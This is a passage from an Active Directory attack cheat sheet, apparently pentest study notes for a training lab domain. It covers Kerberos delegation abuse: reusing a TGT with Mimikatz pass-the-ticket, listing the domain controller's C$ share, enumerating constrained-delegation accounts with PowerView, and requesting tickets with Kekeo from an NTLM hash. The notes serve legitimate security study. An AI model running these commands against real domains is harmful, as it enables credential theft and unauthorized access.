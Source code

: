 > > > > Invoke-UserHunter -ComputerName <ServerName> -Poll 100 -Username <UserNAme> -Delay 5 -Verbose 
> > > > ```
> > >
> > > ***Exploit***
> > >
> > > > **Reuse TGT ticket** 
> > > >
> > > > ```powershell
> > > > Invoke-mimikatz -Command '"kerberos::ptt <tgtFilePAth>"'
> > > > 
> > > > ls \\dcorp-dc.dollarcorp.moneycorp.local\C$
> > > > ```
> >
> > :two: :two: ***Constrained Delegation*** 
> >
> > > :information_desk_person: Request only to specified services on specified computers;
> > >
> > > :bulb: User account is not blocked for delegation 
> > >
> > > :bulb: Abuse Condition : Have Access to the Service Account, then it is possible to access the services listed in **msDS-AllowedToDelegateTo** 
> > >
> > > :information_source: If the user is not using Kerberos Authentication to authenticate to the first hope server, Window offer protocol transition to transition the request to Kerberos
> > >
> > > :book: User authenticates to a web service without Kerberose and the web service makes requests to Database server fetching results based on the user's authorization. 
> > >
> > >  ***Service for User to Self (S4U2self)*** : Allows Service to obtain a forwarded TGS to its self on behalf a user with just the user's principal name. 
> > >
> > > > :information_desk_person: Service account must have the **TRUSTED_TO_AUTHENTICATED_FOR_DELEGATION** - **T2A4D** UserAccountControlAttribute
> > >
> > > ***Service for User to Proxy(S4U2proxy)*** : Allows a service to obtain a TGS to a second service on behalf a user 
> > >
> > > > :information_desk_person: This controlled by **msDS-AllowedToDelegateTo** attribute contains a list of SPNs to which user tokens can be forwarded
> > >
> > > ***Exploit***
> > >
> > > > :one: Enumerate users and computers with constrained delegation enabled 
> > > >
> > > > > **Powerview_dev**
> > > > >
> > > > > > ```powershell
> > > > > > Get-DomainUser -TrustedToAuth
> > > > > > Get-DomainComputer -TrustedToAuth
> > > > > > ```
> > > > >
> > > > > **AD Module**
> > > > >
> > > > > > ```powershell
> > > > > > Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Porperties *
> > > > > > ```
> > > >
> > > > :two: Impersonation 
> > > >
> > > > > :information_desk_person: Either PlainText or NTLM hash is required 
> > > > >
> > > > > ```powershell
> > > > > KEko# tgt::ask /user:<ServiceuserNAme> /domain:<domainFQDN> /rc4:<NTLMHash>
